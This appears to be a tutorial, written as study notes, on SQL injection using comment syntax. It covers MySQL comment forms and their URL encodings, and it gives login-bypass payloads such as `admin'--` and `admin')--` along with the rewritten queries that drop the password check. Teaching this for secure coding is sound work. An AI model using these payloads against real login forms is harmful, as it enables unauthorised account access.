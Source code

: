 # SQL Injection Using Comments

SQL comments can be a powerful tool for manipulating queries, particularly in the context of SQL injection attacks. By using comments, an attacker can alter the logic of a query to bypass authentication mechanisms. Understanding how to effectively use comments, such as `--` and `#`, allows for the creation of malicious inputs that can lead to unauthorized access. This technique highlights the importance of secure coding practices and the need for robust input validation in database-driven applications.

**Comments in SQL**

* SQL supports comments to document queries or ignore parts of them.
* Two types of line comments in MySQL:
  * `--` (must be followed by a space)
  * `#` (can be used for single-line comments)
  * In-line comments: `/* comment */` (less common in SQL injections)

**Example of Using Comments:**

```sql
SELECT username FROM logins; -- This selects usernames from the logins table
```

**Important Note on Comments**

* The `--` comment must have a space after it to be recognized.
* In URLs, spaces are encoded as `+`, so `--` can be represented as `--+`.
* The `#` symbol is treated as a tag in URLs; use `%23` to encode it.

**Example with `#`:**

```sql
SELECT * FROM logins WHERE username = 'admin'; # This part is ignored
```

**Authentication Bypass**

* To bypass authentication, inject `admin'--` as the username.
* The modified query becomes:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

* The query checks only for the username, ignoring the password condition.

**Example of Bypassing with Parentheses**

* SQL allows parentheses to prioritize conditions.
* If a query checks for `id > 1`, it prevents logging in as admin if the admin's ID is 1.
* Attempting to log in with valid credentials fails if the ID is 1.

**Example of Failed Login:**

```sql
SELECT * FROM logins WHERE (username='admin' AND id > 1);
```

* To bypass this, use `admin')--` to close the parentheses and comment out the rest:

```sql
SELECT * FROM logins WHERE (username='admin')-- ' AND password = 'something';
```

* This successfully logs in as admin.


